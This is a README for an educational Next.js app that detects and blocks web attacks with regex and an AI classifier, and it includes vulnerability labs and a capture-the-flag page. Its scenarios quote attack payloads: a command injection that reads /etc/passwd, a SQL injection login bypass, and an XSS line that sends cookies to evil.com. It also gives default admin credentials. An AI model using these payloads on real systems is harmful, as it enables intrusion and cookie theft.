








<div align="center">

# 🛡️ SecureLock

### A Self-Defending Web Application That Fights Back

*What if your website could detect hackers, block their attacks, ban their IPs, and lock itself down — all automatically, in real-time, powered by AI?*


</div>

---

## 🤔 The Problem

> **74% of companies** admit that insecure code has directly caused a security breach.
> — *IT Pro, 2025*

> **The vast majority of breaches** are enabled by preventable, well-known vulnerabilities like SQL injection and XSS.
> — *Bathgate, R., IT Pro, 2026*

Most web apps today rely on **external security tools** (Cloudflare, AWS WAF) bolted on after deployment. But what if the application itself was the firewall? What if it could **understand** attacks, not just pattern-match them?

That's SecureLock.

---

## 💡 The Idea

SecureLock is a **Next.js web application** disguised as an innocent patriotic blog called *"God Bless America."* On the surface, it looks completely normal:

<div align="center">



*Looks like a regular government blog, right? 😏*

</div>

But underneath, there's a full **AI-powered security engine** watching every single request. Try to attack it, and this happens:

<div align="center">



*The Sentinel Dashboard lights up — attacks blocked, IPs banned, threat level climbing.*

</div>

---

## 🏗️ How It Works



### The Defense Layers

| # | Layer | What It Does |
|---|-------|-------------|
| 1 | **WAF Middleware** | Checks every request — is this IP banned? Rate limited? |
| 2 | **Static Regex Engine** | 100+ hardcoded patterns across 11 attack categories |
| 3 | **Deep Decode** | Strips URL encoding, hex encoding, HTML entities — stops obfuscation tricks |
| 4 | **Claude AI (Haiku 4.5)** | LLM analyzes payloads the regex missed — understands *intent*, not just patterns |
| 5 | **DREAD Scoring** | Every detected threat gets a danger score (Damage, Reproducibility, Exploitability, Affected Users, Discoverability) |
| 6 | **Rate Limiting** | 15 requests per 10 seconds — slows down brute-force |
| 7 | **Tarpit** | Malicious requests are delayed 5 seconds — wastes attacker time |
| 8 | **IP Banning** | 3 strikes → permanent ban + browser fingerprint recorded |
| 9 | **Global Lockdown** | 10+ attacker IPs in 1 minute → entire site goes 403 with countdown timer |
| 10 | **Self-Healing** | Lockdown auto-lifts after 5 minutes — system recovers itself |

---

## 🎯 Attack Scenarios

### Scenario 1: Command Injection

A hacker finds the diagnostic terminal and tries to read the server's password file:

```bash
# What the attacker types:
ls -la; cat /etc/passwd
```

**What happens:**
1. The regex engine spots the `;` (shell chaining operator) → `COMMAND_INJECTION`
2. DREAD score: **8.6/10** (full server takeover potential)
3. Claude AI confirms: *"Classic OS command chaining via semicolon. The payload attempts to read /etc/passwd after a benign ls command."*
4. Request **blocked** → `403 Forbidden`
5. Strike 1 recorded on attacker's IP

### Scenario 2: SQL Injection on Login

An attacker tries the classic SQLi bypass:

```sql
# Username field:
' OR '1'='1' --
```

**What happens:**
1. Regex catches `' OR '...'='...'` pattern → `SQL_INJECTION`
2. DREAD score: **8.8/10** (full database compromise)
3. Request **blocked** before it ever touches the database
4. Strike 2 on their IP — one more and they're banned forever

### Scenario 3: The Third Strike

Same attacker tries XSS:

```html
<script>document.location='http://evil.com/?c='+document.cookie</script>
```

**What happens:**
1. Regex catches `<script>` tag → `XSS_INJECTION`
2. **Strike 3** → IP permanently banned
3. Browser fingerprint saved — even VPN won't help
4. All future requests from this IP → **redirected to a rickroll** 🎵

### Scenario 4: Global Lockdown (DDoS)

10 different IPs all start attacking within 1 minute:

**What happens:**
1. System detects coordinated attack pattern
2. **Global lockdown activates** — every endpoint returns 403
3. Public users see a "Service Temporarily Unavailable" overlay with countdown timer
4. After 5 minutes → system **self-heals** and comes back online
5. Individual IP bans remain active

<div align="center">



*The lockdown overlay appears — site goes into protection mode with a countdown timer.*

</div>

---

## 🧠 The AI Engine

SecureLock uses **Anthropic's Claude Haiku 4.5** for real-time threat analysis. Here's how:



**Why Claude instead of GPT?**
- Claude's **Tool Use** feature guarantees structured JSON output every time
- For a WAF, you need a reliable `yes/no` — you can't have the AI returning unpredictable formats
- Haiku 4.5 responds in **under 1 second** — fast enough for real-time blocking

**What if the AI is down?**
- The static regex engine still works on its own
- The system is **fail-secure** — if Claude is unreachable, suspicious inputs are blocked by default, not allowed

---

## 🎮 Capture The Flag

SecureLock includes a built-in **CTF challenge**. There's a secret flag hidden somewhere in the database, and your job is to find it.

**How to play:**
1. Go to `/ctf` for hints
2. Explore the login page's **Insecure Mode** toggle
3. Think about what SQL injection can reveal beyond just logging in...
4. Found it? Submit your flag at `/ctf`

> No spoilers here. You'll have to hack it yourself. 😉

---

## 🔬 Vulnerability Lab

The `/vulnlab` page shows all four core vulnerability classes side-by-side — **vulnerable code vs. secure code**:

| Vulnerability | CWE | CVSS | Our Fix |
|--------------|-----|------|---------|
| **SQL Injection** | CWE-89 | 10.0 Critical | Parameterized queries — input is data, never code |
| **Command Injection** | CWE-78 | 9.8 Critical | `execFile()` + whitelist — no shell, only 5 allowed commands |
| **Cross-Site Scripting** | CWE-79 | 8.2 High | HTML entity escaping — `<script>` becomes `&lt;script&gt;` |
| **Path Traversal** | CWE-22 | 7.5 High | Path canonicalization — `../../../etc/passwd` gets normalized and rejected |

---

## 📊 DREAD Threat Model

Every detected attack gets scored using the **DREAD model** — a risk assessment framework:



| Attack Type | D | R | E | A | D | **Score** |
|-------------|---|---|---|---|---|-----------|
| SQL Injection | 9 | 9 | 8 | 10 | 8 | **8.8** |
| Command Injection | 10 | 9 | 7 | 10 | 7 | **8.6** |
| XSS | 7 | 9 | 8 | 8 | 9 | **8.2** |
| Path Traversal | 8 | 8 | 7 | 7 | 7 | **7.4** |
| SSRF | 9 | 7 | 6 | 8 | 5 | **7.0** |
| Template Injection | 9 | 7 | 6 | 8 | 5 | **7.0** |
| Scanner Detection | 3 | 10 | 10 | 1 | 10 | **6.8** |

---

## 🗺️ Pages & Routes

| Route | What It Does |
|-------|-------------|
| `/` | 🏠 The decoy blog — *"God Bless America"* |
| `/blog/[slug]` | 📰 Blog articles — also the Path Traversal test point |
| `/login` | 🔐 Admin login — SQL injection test point (has Secure/Insecure toggle) |
| `/test-injection` | 💻 Command terminal — OS command injection test point |
| `/xss-test` | 🎨 XSS lab — cross-site scripting test point |
| `/vulnlab` | 🔬 Vulnerability Lab — side-by-side secure vs. vulnerable code |
| `/ctf` | 🚩 Capture The Flag — find the hidden flag using SQLi |
| `/sentinel` | 🛡️ Sentinel Dashboard — real-time security monitoring (admin only) |

---

## 🖥️ The Sentinel Dashboard

The admin-only security command center shows everything in real-time:

<div align="center">



</div>

**What you see:**
- **Core Integrity** — SECURE / ALERT / LOCKDOWN status
- **Threat Intel Matrix** — anomaly count, blocked attacks, self-heals, banned IPs
- **Defensive Posture** — MONITORING / ELEVATED / LOCKDOWN
- **Syslog Live Feed** — every event with timestamps, IP addresses, attack types, DREAD scores
- **AI Analysis Cards** — Claude's reasoning for each blocked payload

---

## 🚀 Getting Started

### Prerequisites
- Node.js 18+
- (Optional) An [Anthropic API key](https://console.anthropic.com/) for AI-powered detection

### Installation

```bash
git clone https://github.com/khushimotwani/Securelock.git
cd Securelock
npm install
```

### Environment Setup

Create a `.env.local` file:

```bash
# Required for AI-powered threat detection
ANTHROPIC_API_KEY=your_anthropic_api_key_here

# Admin session secret (generate with: openssl rand -base64 32)
ADMIN_SESSION_TOKEN=your_secret_token_here
```

> **Note:** Without `ANTHROPIC_API_KEY`, the system still works — the regex engine handles detection, and the AI layer is skipped gracefully.

### Run It

```bash
npm run dev
# Open http://localhost:3000
```

### Default Admin Credentials

```
Username: admin
Password: admin123
```

---

## 🏛️ Architecture



| Component | Technology | Purpose |
|-----------|-----------|---------|
| **Framework** | Next.js 16 + TypeScript (strict) | Full-stack web app with API routes |
| **Database** | SQLite | User credentials (scrypt-hashed) + CTF flag |
| **AI Detection** | Anthropic Claude API (Haiku 4.5) | Real-time payload analysis |
| **State** | In-memory + async JSON persistence | Attack logs, IP bans, lockdown state |
| **Password Hashing** | Node.js `crypto.scrypt` | OWASP-recommended KDF with random salt |
| **Static Analysis** | ESLint + `eslint-plugin-security` | Catches unsafe patterns at build time |
| **Security Headers** | Next.js config | CSP, HSTS, X-Frame-Options, and more |

---

## 🔒 Security Headers

Every response includes these hardened headers:

| Header | Value | Purpose |
|--------|-------|---------|
| `Content-Security-Policy` | `default-src 'self'` | Prevents unauthorized scripts/styles |
| `Strict-Transport-Security` | `max-age=63072000` | Forces HTTPS for 2 years |
| `X-Frame-Options` | `DENY` | Blocks clickjacking |
| `X-Content-Type-Options` | `nosniff` | Prevents MIME sniffing |
| `Referrer-Policy` | `strict-origin-when-cross-origin` | Controls referrer leakage |
| `Permissions-Policy` | `camera=(), microphone=()` | Disables browser APIs |

---

## 📚 Research & References

This project is grounded in real-world security research and standards:

- **OWASP Foundation.** (2025). *OWASP Top 10:2025*. https://owasp.org/Top10/
- **Bathgate, R.** (2026). *The vast majority of breaches are enabled by preventable gaps*. IT Pro.
- **Kobie, N.** (2025). *74% of companies admit insecure code caused a security breach*. IT Pro.
- **MITRE.** (2025). *Common Weakness Enumeration (CWE)*. https://cwe.mitre.org/
- **NIST.** (2025). *National Vulnerability Database — CVSS Scores*. https://nvd.nist.gov/
- **SonarSource.** (2025). *Advanced code security tool for developers*. https://www.sonarsource.com/

---

## ⚠️ Disclaimer

This is an **educational proof-of-concept**. It intentionally includes controlled vulnerabilities for learning purposes. Do not deploy this in production without proper hardening. The included vulnerabilities (SQL injection, command injection, XSS, path traversal) are isolated to specific test pages and can be toggled between secure and insecure modes.

---

## 📄 License

MIT — see [LICENSE](LICENSE) for details.

---

<div align="center">

*"Security is not a product — it's a process. SecureLock makes that process automatic."*

**Built with ❤️ by [Khushi Motwani](https://github.com/khushimotwani)**

</div>
